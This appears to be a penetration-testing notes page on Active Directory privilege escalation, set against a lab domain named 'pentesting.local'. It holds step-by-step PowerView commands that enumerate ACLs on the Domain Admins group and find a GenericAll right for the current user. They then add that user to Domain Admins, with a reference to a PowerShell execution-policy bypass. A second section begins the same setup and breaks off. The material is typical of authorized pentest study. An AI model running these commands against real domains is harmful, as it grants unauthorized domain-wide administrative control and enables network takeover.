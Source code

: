 | SAMPLE DC RESULTS | FROM SCANS |
| --- | --- |
| NETBIOS_DOMAIN_NAME  | PENTESTING |
| NETBIOS_COMPUTER_NAME  | DC |
| DNS_DOMAIN_NAME  | pentesting.local |
| DNS_COMPUTER_NAME  | dc.pentesting.local |
| SAMPLE AD RESULTS | FROM SCANS |
| --- | --- |
| NETBIOS_DOMAIN_NAME  | PENTESTING |
| NETBIOS_COMPUTER_NAME  | AD |
| DNS_DOMAIN_NAME  | pentesting.local |
| DNS_COMPUTER_NAME  | ad.pentesting.local |
#### 82 ACL GenericALL on Group
>NEEDS LOCAL ADMIN USER ACCESS
Assuming you have PowerView.ps1 in temp/Tools directory.
```
cd %TEMP%/Tools
```
![[2._Powershell  Bypass#Execution bypass]]
```
Import-Module .\PowerView.ps1
```
```
Get-DomainGroup -SamAccountName 'Domain Admins'
```
```
Get-ObjectAcl -SamAccountName Domain Admins -ResolveGUIDs
```
```
Get-ObjectAcl -SamAccountName Domain Admins -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericAll')}
```
Copy your current user's Security Identifier value:
```
Get-DomainUser -Name $USER
```
```
Get-ObjectAcl -SamAccountName Domain Admins -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericAll') -and ($_.SecurityIdentifier -match '$SID')}
```
Next, we add ourselves to Domain Admins group:
```
Add-DomainGroupMember -Identity 'Domain Admins' -Members '$USER'
```
Verify user is now part of Domain Admins:
```
Get-DomainUser -Name $USER
```
Look at Group Members:
```
Get-DomainGroup -SamAccountName Domain Admins
```
#### 83 Priv Esc - Domain Admins
>NEEDS LOCAL ADMIN USER ACCESS
Assuming you have PowerView.ps1 in temp/Tools directory.
```
cd %TEMP%/Tools
```
![[2._Powershell  Bypass#Execution bypass]]
```
Import-Module .\PowerView.ps1
```